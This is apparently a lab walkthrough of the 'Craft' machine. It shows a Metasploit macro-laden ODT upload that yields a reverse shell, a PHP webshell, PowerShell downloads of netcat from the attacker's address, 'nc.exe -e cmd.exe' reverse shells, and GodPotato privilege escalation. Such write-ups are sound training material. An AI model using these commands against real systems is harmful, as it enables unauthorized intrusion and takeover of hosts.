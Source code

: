 # Craft

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 23:30 +08
Nmap scan report for 192.168.197.169
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

### OpenOffice Macros --> Shell

The HTTP site was a Lorem Ipsum website:

<figure><img src="../../../.gitbook/assets/image (185) (3).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see that there is a file upload for our 'resume'.

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

I tried to upload an image, and this triggered an error:

<figure><img src="../../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

An ODT file is similar to a Microsoft Word document, which can be created using `libreoffice`. Seeing that we can only upload ODT files, this machine might have a script opening the files and being able to trigger some macros embedded within the file.&#x20;

We can use `msfconsole` to generate this file:

```
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST tun0
LHOST => 192.168.45.197
msf6 exploit(multi/misc/openoffice_document_macro) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/misc/openoffice_document_macro) > 
[*] Started reverse TCP handler on 192.168.45.197:4444 
[*] Using URL: http://192.168.45.197:8080/HugvG5t95RCfjWq
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

Afterwards, we can upload this file to the machine and wait for the script to open it:

```
[*] 192.168.197.169  openoffice_document_macro - Sending payload
[*] Command shell session 1 opened (192.168.45.197:5555 -> 192.168.197.169:49737) at 2023-07-05 23:39:11 +0800
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type               Information                    Connection
  --  ----  ----               -----------                    ----------
  1         shell x64/windows  Shell Banner: Microsoft Windo  192.168.45.197:5555 -> 192.16
                               ws [Version 10.0.17763.2029]   8.197.169:49737 (192.168.197.
                               -----                          169)

```

Resume this sesison to drop into our shell:

<figure><img src="../../../.gitbook/assets/image (268) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache User Shell

When checking the users present, we can see that there's an `apache` user:

```
 Directory of C:\Users

07/13/2021  03:35 AM    <DIR>          .
07/13/2021  03:35 AM    <DIR>          ..
05/28/2021  03:53 AM    <DIR>          Administrator
02/17/2023  03:36 PM    <DIR>          apache
05/28/2021  03:53 AM    <DIR>          Public
02/17/2023  03:36 PM    <DIR>          thecybergeek
```

The next step might be to get a shell as this user. Since there's a website being hosted on the machine, we can start there. I found that we can write to the webroot folder:

```
 Directory of C:\xampp\htdocs

07/13/2021  03:18 AM    <DIR>          .
07/13/2021  03:18 AM    <DIR>          ..
07/13/2021  03:18 AM    <DIR>          assets
07/13/2021  03:18 AM    <DIR>          css
07/07/2021  10:53 AM             9,635 index.php
07/13/2021  03:18 AM    <DIR>          js
07/07/2021  09:56 AM               835 upload.php
07/05/2023  08:38 AM    <DIR>          uploads
               2 File(s)         10,470 bytes
               6 Dir(s)  10,492,981,248 bytes free

C:\xampp\htdocs>echo hello > hello.txt
echo hello > hello.txt
```

As such, we can drop a `cmd.php` webshell within this file and verify that we have RCE as `apache`:

```
$ curl http://192.168.197.169/cmd.php?cmd=whoami
craft\apache
```

We can then download `nc64.exe` onto the machine and get a shell as `apache`:

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=powershell -c wget 192.168.45.197/nc64.exe -Outfile C:/Windows/Tasks/nc.exe' http://192.168.197.169/cmd.php

$ curl -G --data-urlencode 'cmd=C:/Windows/Tasks/nc.exe -e cmd.exe 192.168.45.197 21' http://192.168.197.169/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

### SeImpersonatePrivilege

This user has the `SeImpersonatePrivilege` enabled:

```
C:\xampp\htdocs>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We can use `godpotato.exe` to exploit this:

{% code overflow="wrap" %}
```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.197 21"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (174) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
